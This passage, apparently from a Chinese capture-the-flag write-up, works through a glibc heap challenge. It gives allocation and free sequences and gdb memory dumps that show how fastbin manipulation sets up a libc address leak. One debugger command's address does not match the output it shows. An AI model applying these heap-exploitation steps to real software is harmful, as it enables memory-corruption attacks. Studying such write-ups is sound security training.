- Allocate - 调用 calloc 分配小于 0x1000 大小的内存，calloc 分配的 chunk 会被清空。
- Fill - 填充任意大小的内存，意味着可以覆盖其它 chunk。
- Free - 释放一块 chunk。
- Dump - 输出限制大小的 chunk 内容。

# Leak Libc

程序没有 uaf ，内存被释放后无法查看其中内容，可以通过 double free 获得指向 small bin 的 index，将其释放后 dump 出来。

首先分配一系列相同大小的 fast chunk，再分配一个 small chunk，释放掉其中一个 fast chunk。

```
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x10)
alloc(0x80)

free(1)
```

此时我们查看一下堆内存，和 main_arena。

```
0x5591e2494000:	0x00000000	0x00000000	0x00000021	0x00000000	<--- chunk 0 (fastbin, in use)
0x5591e2494010:	0x00000000	0x00000000	0x00000000	0x00000000
0x5591e2494020:	0x00000000	0x00000000	0x00000021	0x00000000	<--- chunk 1 (fastbin, free)
0x5591e2494030:	0x00000000	0x00000000	0x00000000	0x00000000
0x5591e2494040:	0x00000000	0x00000000	0x00000021	0x00000000	<--- chunk 2 (fastbin, in use)
0x5591e2494050:	0x00000000	0x00000000	0x00000000	0x00000000
0x5591e2494060:	0x00000000	0x00000000	0x00000021	0x00000000	<--- chunk 3 (fastbin, in use)
0x5591e2494070:	0x00000000	0x00000000	0x00000000	0x00000000
0x5591e2494080:	0x00000000	0x00000000	0x00000091	0x00000000	<--- chunk 4 (smallbin, in use)
0x5591e2494090:	0x00000000	0x00000000	0x00000000	0x00000000

gdb-peda$ x/32xw &main_arena
0x7f9f952dfb20 <main_arena>:	0x00000000	0x00000000	0xe2494020	0x00005591	<--- fastbin[0]
0x7f9f952dfb30 <main_arena+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7f9f952dfb40 <main_arena+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7f9f952dfb50 <main_arena+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7f9f952dfb60 <main_arena+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x7f9f952dfb70 <main_arena+80>:	0x00000000	0x00000000	0xe2494110	0x00005591
0x7f9f952dfb80 <main_arena+96>:	0x00000000	0x00000000	0x952dfb78	0x00007f9f
0x7f9f952dfb90 <main_arena+112>:	0x952dfb78	0x00007f9f	0x952dfb88	0x00007f9f
```

释放的那个 fast chunk 被放入到 fastbin 中，fastbin 为单链表形式，如果再释放一个 fast chunk，将其插入 fastbin 的头部，释放的第二个 chunk 其 fd 会被设置成第一个 chunk 的地址。

```
free(2)

gdb-peda$ x/128xw 0x000055e7126bf000
0x5591e2494000:	0x00000000	0x00000000	0x00000021	0x00000000
0x5591e2494010:	0x00000000	0x00000000	0x00000000	0x00000000
0x5591e2494020:	0x00000000	0x00000000	0x00000021	0x00000000
0x5591e2494030:	0x00000000	0x00000000	0x00000000	0x00000000
0x5591e2494040:	0x00000000	0x00000000	0x00000021	0x00000000
0x5591e2494050:	0xe2494020	0x00005591	0x00000000	0x00000000
0x5591e2494060:	0x00000000	0x00000000	0x00000021	0x00000000
0x5591e2494070:	0x00000000	0x00000000	0x00000000	0x00000000
0x5591e2494080:	0x00000000	0x00000000	0x00000091	0x00000000
0x5591e2494090:	0x00000000	0x00000000	0x00000000	0x00000000

gdb-peda$ x/32xw &main_arena
0x7f9f952dfb20 <main_arena>:	0x00000000	0x00000000	0xe2494040	0x00005591	<--- 最新释放的 chunk
0x7f9f952dfb30 <main_arena+16>:	0x00000000	0x00000000	0x00000000	0x00000000
```